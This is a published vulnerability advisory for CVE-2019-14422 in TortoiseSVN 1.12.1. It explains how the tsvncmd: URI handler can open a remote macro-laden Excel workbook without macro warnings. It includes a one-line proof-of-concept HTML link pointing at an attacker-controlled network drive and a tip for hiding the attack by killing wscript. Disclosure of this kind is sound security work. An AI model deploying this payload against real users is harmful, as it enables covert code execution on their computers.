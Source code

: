 EXP
---

    Document Title:
    ===============
    TortoiseSVN v1.12.1 - Remote Code Execution Vulnerability


    References (Source):
    ====================
    https://www.vulnerability-lab.com/get_content.php?id=2188

    Product:
    https://osdn.net/projects/tortoisesvn/storage/1.12.1/Application/TortoiseSVN-1.12.1.28628-x64-svn-1.12.2.msi/

    Ticket: https://groups.google.com/forum/#!forum/tortoisesvn

    http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2019-14422

    CVE-ID:
    =======
    CVE-2019-14422


    Release Date:
    =============
    2019-08-13


    Vulnerability Laboratory ID (VL-ID):
    ====================================
    2188


    Common Vulnerability Scoring System:
    ====================================
    8.8


    Vulnerability Class:
    ====================
    Code Execution


    Current Estimated Price:
    ========================
    4.000€ - 5.000€


    Product & Service Introduction:
    ===============================
    TortoiseSVN is a really easy to use Revision control / version control /
    source control software for Windows.
    It is based on Apache Subversion (SVN); TortoiseSVN provides a nice and
    easy user interface for Subversion.
    It is developed under the GPL. Which means it is completely free for
    anyone to use, including in a commercial
    environment, without any restriction. The source code is also freely
    available, so you can even develop your
    own version if you wish to. Since it's not an integration for a specific
    IDE like Visual Studio, Eclipse or
    others, you can use it with whatever development tools you like, and
    with any type of file.

    (Copy of the about page: https://tortoisesvn.net/about.html )


    Abstract Advisory Information:
    ==============================
    A vulnerability laboratory researcher (vxrl team) discovered a remote
    code execution vulnerability in the TortoiseSVN v1.12.1 software.


    Vulnerability Disclosure Timeline:
    ==================================
    2019-08-13: Public Disclosure (Vulnerability Laboratory)

    Affected Product(s):
    ====================
    TortoiseSVN
    Product: TortoiseSVN - Software 1.12.1


    Discovery Status:
    =================
    Published


    Exploitation Technique:
    =======================
    Remote


    Severity Level:
    ===============
    High


    Authentication Type:
    ====================
    Pre auth - no privileges


    User Interaction:
    =================
    Low User Interaction


    Disclosure Type:
    ================
    Independent Security Research


    Technical Details & Description:
    ================================
    A remote code execution vulnerability has been uncovered in the official
    TortoiseSVN v1.12.1 software.
    The vulnerability typ allows remote attackers to execute arbitrary codes
    to compromise a target computer system.

    The URI handler of TortoiseSVN (Tsvncmd:) allows a customised diff
    operation on Excel workbooks, which could be used to open remote
    workbooks without protection from macro security settings to execute
    arbitrary code.

    The `tsvncmd:command:diff?path:[file1]?path2:[file2]` will execute a
    customised diff on [file1] and [file2] based on the file extension.
    For xls files, it will execute the script `diff-xls.js` using wscript,
    which will open the two files for analysis without any macro
    security warning. An attacker can exploit this by putting a macro virus
    in a network drive, and force the victim to open the workbooks
    and execute the macro inside. Since the macro is triggered through
    wscript, to make the attack less visible, one could kill the wscript
    process and quit the excel program after the code was executed.


    Proof of Concept (PoC):
    =======================
    The vulnerability could be triggered by visiting a specially crafted URL
    via web browser.
    To reproduce the vulnerability, one could simply create a .url file or
    open the URL with a browsers,
    but a notification prompt may be shown for the latter case.

    <a
    href='tsvncmd:command:diff?path:VBoxSvrvv.xlsm?path2:VBoxSvrvw.xlsx'>Checkout
    the Repo with TortoiseSVN</a>

    where VBoxSvrv is the remote network drive controlled by the attacker,
    v.xlsm is the macro virus and w.xlsx is just an empty excel workbook.

    Sources: https://www.vulnerability-lab.com/resources/documents/2188.rar
    Password: 23vxrl23

    PoC: Video
    https://www.youtube.com/watch?v=spvRSC377vI


    Security Risk:
    ==============
    The security risk of the remote code execution vulnerability in the
    software component is estimated as high.


    Credits & Authors:
    ==================
    PingFanZettaKe [VXRL Team] -
    https://www.vulnerability-lab.com/show.php?user=PingFanZettaKe


    Disclaimer & Information:
    =========================
    The information provided in this advisory is provided as it is without
    any warranty. Vulnerability Lab disclaims all warranties,
    either expressed or implied, including the warranties of merchantability
    and capability for a particular purpose. Vulnerability-Lab
    or its suppliers are not liable in any case of damage, including direct,
    indirect, incidental, consequential loss of business profits
    or special damages, even if Vulnerability-Lab or its suppliers have been
    advised of the possibility of such damages. Some states do
    not allow the exclusion or limitation of liability for consequential or
    incidental damages so the foregoing limitation may not apply.
    We do not approve or encourage anybody to break any licenses, policies,
    deface websites, hack into databases or trade with stolen data.

    Domains:    www.vulnerability-lab.com       www.vuln-lab.com
    www.vulnerability-db.com
    Services:   magazine.vulnerability-lab.com
    paste.vulnerability-db.com          infosec.vulnerability-db.com
    Social:     twitter.com/vuln_lab        facebook.com/VulnerabilityLab
    youtube.com/user/vulnerability0lab
    Feeds:      vulnerability-lab.com/rss/rss.php
    vulnerability-lab.com/rss/rss_upcoming.php
    vulnerability-lab.com/rss/rss_news.php
    Programs:   vulnerability-lab.com/submit.php
    vulnerability-lab.com/register.php
    vulnerability-lab.com/list-of-bug-bounty-programs.php
